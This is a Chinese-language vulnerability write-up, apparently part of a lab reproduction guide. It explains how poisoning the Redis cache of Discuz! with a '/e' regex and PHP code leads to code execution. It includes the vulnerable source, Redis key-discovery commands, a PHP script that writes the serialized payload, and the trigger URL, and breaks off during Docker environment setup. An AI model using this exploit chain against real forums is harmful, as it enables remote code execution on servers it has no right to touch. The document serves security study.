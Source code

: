# Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建立通过[DaoCloud](https://www.daocloud.io/)拉取镜像
